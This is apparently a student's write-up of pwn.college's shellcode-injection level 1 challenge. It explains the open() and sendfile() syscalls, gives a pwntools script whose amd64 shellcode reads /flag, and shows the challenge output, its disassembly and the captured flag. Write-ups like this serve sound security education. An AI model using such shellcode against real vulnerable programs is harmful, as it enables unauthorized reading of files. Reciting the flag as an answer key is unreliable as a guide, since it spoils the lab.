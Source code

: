 # Level 1 

## Approach 

So I referred to the PWNcollege lectures by Professor Yan on shellcode injection before I started doing these challenges.

This was pretty straightforward challenge, we have to write shellcode for opening the "/flag" file and call the sendfile() syscall with the appropriate parameters.

`Sendfile()`

**ssize_t sendfile(int out_fd, int in_fd, off_t *offset, size_t count);**

Basically, it's an efficient way to transfer data directly b/w file descriptors.

- **out-fd** - The file descriptor where data will be written

- **in_fd** - The file descriptor from which data is read

- **offset** - specifies the starting point of input(basically no. of pops before input is sent)

- **count** - no. of bytes to transfer


`open()`

takes two parameters - open(char *pathname, modes)

- Basic access modes:

O_RDONLY (0): Read only
O_WRONLY (1): Write only
O_RDWR (2): Read and write

So this is the script that I created 

```py 

from pwn import *

p = process('/challenge/babyshell-level-1')

context.arch = 'amd64'

script = asm('''
mov rbx, 0x00000067616c662f     # "/flag" in little endian format
push rbx                        # push the string into the stack
mov rax, 2                      # syscall for open
mov rdi, rsp                    # rsp is "/flag", we're moving this to rdi (1st argument)
mov rsi, 0                      # Second argument is 0 (Read Only)
syscall                         # Execute open() syscall

mov rdi, 1                      # 1st argument (rdi) to sendfile() is 1 i.e stdout FD
mov rsi, rax                    # Move opened file's fd from rax to rsi (i.e 2nd argument)
mov rdx, 0                      # 3rd argument indicates to skip 0 bytes from input
mov r10, 1000                   # 4th argument indicates to send 1000 bytes to output
mov rax, 40                     # syscall for sendfile
syscall                         # Execute sendfile() syscall

mov rax, 60                     # syscall for exit
syscall                         # Exit the program
''')

p.sendline(script)
p.interactive()

```

And from that I got this flag

``` 

hacker@shellcode-injection~level1:~$ python3 script.py
[+] Starting local process '/challenge/babyshell-level-1': pid 173
[*] Switching to interactive mode
[*] Process '/challenge/babyshell-level-1' stopped with exit code 1 (pid 173)
###
### Welcome to /challenge/babyshell-level-1!
###

This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them
as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will
practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing
other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.

In this challenge, shellcode will be copied onto the stack and executed. Since the stack location is randomized on every
execution, your shellcode will need to be *position-independent*.

Allocated 0x1000 bytes for shellcode on the stack at 0x7ffcc97a3460!
Reading 0x1000 bytes from stdin.

This challenge is about to execute the following shellcode:

      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x00007ffcc97a3460 | 48 bb 2f 66 6c 61 67 00 00 00                 | movabs rbx, 0x67616c662f
0x00007ffcc97a346a | 53                                            | push rbx
0x00007ffcc97a346b | 48 c7 c0 02 00 00 00                          | mov rax, 2
0x00007ffcc97a3472 | 48 89 e7                                      | mov rdi, rsp
0x00007ffcc97a3475 | 48 c7 c6 00 00 00 00                          | mov rsi, 0
0x00007ffcc97a347c | 0f 05                                         | syscall
0x00007ffcc97a347e | 48 c7 c7 01 00 00 00                          | mov rdi, 1
0x00007ffcc97a3485 | 48 89 c6                                      | mov rsi, rax
0x00007ffcc97a3488 | 48 c7 c2 00 00 00 00                          | mov rdx, 0
0x00007ffcc97a348f | 49 c7 c2 e8 03 00 00                          | mov r10, 0x3e8
0x00007ffcc97a3496 | 48 c7 c0 28 00 00 00                          | mov rax, 0x28
0x00007ffcc97a349d | 0f 05                                         | syscall
0x00007ffcc97a349f | 48 c7 c0 3c 00 00 00                          | mov rax, 0x3c
0x00007ffcc97a34a6 | 0f 05                                         | syscall

Executing shellcode!

pwn.college{889uuKMUshCnE2r3KYf9MHOKZtj.01NxIDLzITO0czW}
```

## Flag 
`pwn.college{889uuKMUshCnE2r3KYf9MHOKZtj.01NxIDLzITO0czW}`

## My learning
- How to inject shellcode
- Working with syscalls such as open() and sendfile()

## Mistakes I made
- Initially sent "flag" instead of "/flag" which is basically the path to the file flag

## References
https://docs.google.com/presentation/d/1kkfh-dhgxfIZPB1ziyW2JQiC1MbQWn8c7e24kOoDxJ4/edit#slide=id.g9605bf3899_0_0